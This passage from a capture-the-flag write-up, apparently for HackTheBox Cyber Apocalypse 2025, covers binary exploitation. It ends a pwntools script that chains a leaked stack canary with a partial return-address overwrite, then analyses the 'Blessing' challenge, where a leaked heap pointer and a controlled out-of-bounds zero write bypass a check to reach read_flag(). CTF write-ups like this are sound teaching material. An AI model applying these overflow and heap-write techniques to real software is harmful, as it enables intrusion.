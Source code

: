 # Construct second payload
payload2 = b"B"*88
payload2 += p64(canary)
payload2 += b"B"*8
payload2 += b"\x7f\x13"  # Address of duck_attack()

# Send final payload
io.sendline(payload2)
io.interactive()</code></pre>
        </div>
    </div>
</section>
</section>


<section id="back">
<section id="blueback" class="container">
    <div id="blessing" class="challenge-section">
        <div class="section-content">
            <b>Name:</b> <span class="text"> Blessing </span><br>
            <b>Category:</b> Binary Exploitation <br>
            <b>Difficulty:</b> Very Easy <br>
            <p>
               <br> In this challenge, we are given a binary that interacts with a Bard who provides a **memory leak** and allows us to **write past an allocated buffer**. The goal is to use an **off-by-one write** to set a heap-allocated pointer to `0`, bypass a conditional check, and call `read_flag()` to retrieve the flag.
            </p>
        </div>
        <div class="section-content">
            <h2>Vulnerability Analysis</h2>
            <h5>Relevant Code Snippet</h5>
            <pre><code class="language-c">  v6 = malloc(0x30000uLL);
  *v6 = 1LL;
  printf("%p", v6); // Leaks the allocated pointer
  
  printf("Give me the song's length: ");
  __isoc99_scanf("%lu", &size);
  buf = malloc(size);
  read(0, buf, size);
  *(_QWORD *)((char *)buf + size - 1) = 0LL;

  if (*v6)
    printf("Your song was not as good as expected...\n");
  else
    read_flag();</code></pre>
        </div>
        <div class="section-content">
            <h3>Exploitation Plan:</h3>
            <ol>
                <li><b>Leak a Heap Address:</b> The program prints the pointer allocated with `malloc(0x30000)`, revealing its address.</li>
                <li><b>Control the Overwrite:</b> The buffer allows an off-by-one write at `buf + size - 1`.</li>
                <li><b>Overwrite `v6`:</b> Carefully set `size` such that `buf + size - 1` lands on `v6`.</li>
                <li><b>Trigger `read_flag()`:</b> Setting `*v6 = 0` bypasses the check and calls `read_flag()`.</li>
            </ol>
        </div>
        <div class="section-content">
            <h3>Exploit Proof</h3>
            <img src="{{ '/writeups/HackTheBox-CyberApocalypse2025/assets/blessing.png' | relative_url }}" alt="blessing" class="side-image" />
        </div>